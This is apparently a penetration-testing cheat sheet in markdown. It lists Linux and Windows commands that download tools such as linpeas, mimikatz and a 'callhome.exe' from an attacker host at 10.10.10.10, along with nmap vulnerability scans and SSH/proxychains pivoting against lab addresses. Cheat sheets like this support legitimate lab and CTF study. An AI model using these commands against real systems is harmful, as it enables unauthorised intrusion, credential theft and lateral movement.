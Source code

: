 # File_Transfer ✅
## linux ✅
```bash
python3 -m http.server 8000
wget http://10.10.10.10:8000/linpeas.sh
curl http://10.10.10.10:8000/linpeas.sh -O linpeas.sh
curl --path-as-is http://10.10.10.10:8000/../../../../linpeas.sh -O linpeas.sh
```
## windows ✅
```bash 
certutil -urlcache -split -f http://10.10.10.10:8000/namefile.txt C:\Users\Public\namefile.txt
powershell -c wget "http://10.10.10.10:8000/namefile.txt" -OutFile "C:\Windows\Temp\namefile.txt"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.10:8000/namefile.txt' -OutFile 'C:\Windows\Temp\namefile.txt'"
bitsadmin /transfer myDownloadJob /download /priority normal http://10.10.10.10:8000/namefile.txt C:\Users\temp\namefile.txt
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10:8000/callhome.exe','callhome.exe')"

c:\Python27\python.exe -c "import urllib; print urllib.urlopen('http://10.10.10.10:8000/mimikatz_trunk.zip').read()" > mimikatz_trunk.zip
```
# Enumeration ✅📚
## Ports_Scan_Enumeration ✅
```bash
ip=10.10.93.52

sudo nmap -p- $ip -sV -T5
sudo nmap -p- $ip -sV -T5 -Pn
sudo nmap 139,445 --script=vuln $ip -T5 
sudo nmap -p 139,445 --script=vuln $ip -T5 -Pn
sudo rustscan -a $ip -p 139,445 -- --script=vuln -T5

sudo rustscan -a $ip -- -sV -T5
sudo nmap -p $PORTS -sV $ip -T5
PORTS=$(sudo nmap -p- $ip -T5 | grep -oE '[0-9]{1,5}/' | tr -d '\n' | tr '/' ',' | sed 's/,$//')
```
## Target_Enumeration_With_proxychane ✅
```bash
ssh 10.10.217.6 -i id_rsa -D 1337
sudo nano /etc/proxychains4.conf # to end file and change  ( socks5 127.0.0.1 1337 )
sudo proxychains4 ip a # run "ip a" command in our kali but exce in target
sudo proxychains4 nmap -sT 127.0.0.1 # port target scan in our kali
sudo proxychains4 nmap -sn 10.10.233.188/24 # ip target scan in our kali
sudo ssh errorcauser@10.10.217.6 -i id_rsa -L 8000:127.0.0.1:80 # (YOU <-- CLIENT) transfer port from target system to our system
```
